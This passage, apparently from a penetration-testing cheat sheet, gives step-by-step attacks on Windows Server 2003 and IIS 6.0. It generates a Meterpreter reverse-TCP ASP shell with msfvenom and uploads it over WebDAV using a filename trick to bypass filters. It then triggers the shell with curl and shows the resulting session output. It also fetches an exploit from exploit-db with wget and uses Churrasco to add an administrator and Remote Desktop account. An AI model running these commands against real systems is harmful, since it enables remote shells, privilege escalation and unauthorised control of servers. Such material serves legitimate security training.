       timeout 1
      echo REPORT COMPLETE!
      ```
- Windows Server 2003 and IIS 6.0 WEBDAV Exploiting
<http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html>

      ```shell
         msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=443 -f asp > aspshell.txt

         cadaver http://$ip
         dav:/> put aspshell.txt
         Uploading aspshell.txt to '/aspshell.txt':
         Progress: [=============================>] 100.0% of 38468 bytes succeeded.
         dav:/> copy aspshell.txt aspshell3.asp;.txt ( Bypass webdav filter )  
         Copying '/aspshell3.txt' to '/aspshell3.asp%3b.txt':  succeeded.
         dav:/> exit

         msf > use exploit/multi/handler
         msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
         msf exploit(handler) > set LHOST 1.2.3.4
         msf exploit(handler) > set LPORT 80
         msf exploit(handler) > set ExitOnSession false
         msf exploit(handler) > exploit -j

         curl http://$ip/aspshell3.asp;.txt

         [*] Started reverse TCP handler on 1.2.3.4:443 
         [*] Starting the payload handler...
         [*] Sending stage (957487 bytes) to 1.2.3.5
         [*] Meterpreter session 1 opened (1.2.3.4:443 -> 1.2.3.5:1063) at 2017-09-25 13:10:55 -0700
      ```

Without metasploit we can generate a shell and listen with netcat or metasploit multi handler.
**Use davtest to test for webdav**

- Windows privledge escalation exploits are often written in Python. So, it is necessary to compile the using pyinstaller.py into an executable and upload them to the remote server.

      ```shell
      pip install pyinstaller
      wget -O exploit.py http://www.exploit-db.com/download/31853  
      python pyinstaller.py --onefile exploit.py
      ```

- Windows Server 2003 and IIS 6.0 privledge escalation using impersonation:

      <https://www.exploit-db.com/exploits/6705/>

      <https://github.com/Re4son/Churrasco>

      ```shell
      c:\Inetpub>churrasco
      churrasco 
      /churrasco/-->Usage: Churrasco.exe [-d] "command to run"

      c:\Inetpub>churrasco -d "net user /add <username> <password>"
      c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
      c:\Inetpub>churrasco -d "NET LOCALGROUP 'Remote Desktop Users' <username> /ADD"
      ```
